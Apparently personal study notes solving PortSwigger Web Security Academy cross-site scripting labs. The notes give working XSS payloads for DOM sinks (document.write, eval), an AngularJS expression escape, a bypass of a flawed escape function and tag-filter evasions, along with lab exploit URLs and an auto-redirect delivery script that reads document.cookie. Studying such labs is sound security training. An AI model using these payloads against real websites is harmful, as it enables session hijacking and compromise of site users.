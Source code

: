 ____

# DOM XSS in `document.write` sink using source `location.search` inside a select element

```html
"></select><img src=1 onerror=alert(1)>
```

![[Pasted image 20240804162601.png]]

```html
test</select><img src=1 onerror=alert(1)>
```

# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`ng-app`

```js
{{$on.constructor('alert(1)')()}}
```

# Reflected DOM XSS

The application may be vulnerable to DOM-based JavaScript injection. Data is read from **location.search** and passed to **eval**.

```js
\"-alert()}//
```

Here's the step-by-step breakdown of why this works:

1. **Escape the JSON Context**: The `\"` escapes the JSON string.
2. **Inject Code**: `-alert()` gets injected and executed.
3. **Comment Out**: `}//` comments out the rest to prevent any syntax errors from the remaining code.

# Stored DOM XSS

> Function replaces first angle brakets only:

```js
 function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

```js
<><img src=1 onerror=alert(1)>
```

# Reflected XSS into HTML context with most tags and attributes blocked

"Tag is not allowed"

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Copy tags to clipboard

![[Pasted image 20240806115813.png]]

Status 200 --> body

"Attribute is not allowed"

Copy events to clipboard

![[Pasted image 20240806120249.png]]

```js
<body onresize="print()">
```

```js
<iframe src="https://0aff0012036c406f80a92664002500fa.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```


# Reflected XSS into HTML context with all tags blocked except custom ones

```html
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```

```
https://0a21007b032e40bc807f498000a7008a.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert(document.cookie)+tabindex%3D1%3E#x
```

```html
<script>
location = 'https://0a21007b032e40bc807f498000a7008a.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E#x';
</script>
```








